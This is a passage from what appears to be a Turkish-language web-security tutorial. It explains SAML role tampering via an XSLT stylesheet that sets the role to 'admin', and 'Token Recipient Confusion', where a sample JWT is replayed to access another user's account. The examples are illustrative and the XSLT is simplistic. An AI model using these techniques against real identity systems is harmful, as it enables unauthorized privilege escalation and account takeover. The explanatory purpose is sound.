 ```
<saml:Assertion xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion">
  <saml:AttributeStatement>
    <saml:Attribute Name="username" Value="JohnDoe"/>
    <saml:Attribute Name="role" Value="user"/>
  </saml:AttributeStatement>
</saml:Assertion>

```
Saldırgan, XSLT saldırısını kullanarak kullanıcı rolünü değiştirmeye çalışır ve yönetici rolüne erişmeyi hedefler. Aşağıdaki XSLT kodu, SAML token'ındaki rolü değiştirir:
```
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
  <xsl:output method="xml"/>
  
  <xsl:template match="/">
    <saml:Assertion xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion">
      <saml:AttributeStatement>
        <saml:Attribute Name="username">
          <xsl:value-of select="saml:AttributeStatement/saml:Attribute[@Name='username']/@Value"/>
        </saml:Attribute>
        <saml:Attribute Name="role" Value="admin"/>
      </saml:AttributeStatement>
    </saml:Assertion>
  </xsl:template>
</xsl:stylesheet>

```

Saldırgan, XSLT dönüşüm işlemi sırasında `<saml:Attribute Name="role" Value="admin"/>` satırını ekleyerek rolü değiştirir. Böylece, saldırgan yönetici yetkilerine sahip bir kullanıcı olarak kabul edilebilir.

## Token Recipient Confusion

"Token Recipient Confusion" olarak adlandırılan bu güvenlik açığı, bir saldırganın kendi kimlik doğrulama belirteci (token) ile başka bir kullanıcının hesabına giriş yapabilmesini sağlayan bir zafiyeti ifade eder.

Bu zafiyet, genellikle bir yetkilendirme veya kimlik doğrulama sistemindeki hatalı yapılandırmalardan kaynaklanır. Sistem, saldırganın kimlik doğrulama belirteciyle bir kullanıcı olduğunu yanlışlıkla kabul eder ve saldırganı hedef kullanıcının hesabına erişim sağlar. Böylece, saldırgan, hedef kullanıcının yetkilerini kullanabilir ve hassas bilgilere erişebilir.

Örnek Senaryo:

Sistem, kimlik doğrulama için bir JWT (JSON Web Token) kullanıyor olsun. İşte bir örnek JWT:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```
Saldırgan, bu JWT'yi alır ve hedef kullanıcının hesabına erişmek için kullanır. Sistem, saldırganın gönderdiği bu JWT'yi geçerli bir kimlik doğrulama belirteci olarak kabul eder ve saldırganı hedef kullanıcının oturum açmış gibi kabul eder. Bu durumda saldırgan, hedef kullanıcının hesabına erişim sağlar ve o hesabın yetkilerini kullanabilir.
